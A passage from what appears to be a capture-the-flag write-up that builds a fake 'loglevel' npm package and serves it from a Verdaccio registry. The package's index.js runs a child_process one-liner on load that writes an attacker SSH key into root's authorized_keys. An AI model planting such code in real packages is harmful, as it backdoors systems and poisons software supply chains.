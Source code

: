 
    Is this OK? (yes)



The only one I can't take the default on is name, which I'll name
`loglevel`, as I want it to be included and called by the server on
Seventeen, and I'll up the version beyond what is current on the [real
module](https://www.npmjs.com/package/loglevel), currently 1.8.0. The
above process creates a `package.json` file in the current directory.

I used the default of `index.js`, so I'll create that file right next to
`package.json`:



    const cp = require("child_process")

    cp.exec("mkdir -p /root/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys");

    function log(msg) {
        console.log(msg);
    }

    function debug(msg) {
        console.log(msg);
    }

    function warn(msg) {
        console.log(msg);
    }

    module.exports.log = log;



I don't believe I need more than a one liner to do my malicious stuff,
but I'll implement the `log` functions that are expected in the node
application.

#### Verdaccio Container

To get a server running on my host, I'll use a [Verdaccio Docker
container](https://verdaccio.org/docs/docker/). I'll run
`docker pull verdaccio/verdaccio` (either as root, with `sudo`, or with
my user in the `docker` group) to get a copy of the container image.

I'll run the container using the command from the instructions above,
though some experimentation shows that I need to run it with the
environment variable `VERDACCIO_PUBLIC_URL` pointing to my tun0 IP:



    oxdf@hacky$ sudo docker run -it --rm --name verdaccio -p 4873:4873 -e 'VERDACCIO_PUBLIC_URL=http://10.10.14.6' verdaccio/verdaccio
     warn --- config file  - /verdaccio/conf/config.yaml
     warn --- Plugin successfully loaded: verdaccio-htpasswd
     warn --- Plugin successfully loaded: verdaccio-audit
     warn --- http address - http://0.0.0.0:4873/ - verdaccio/5.10.2
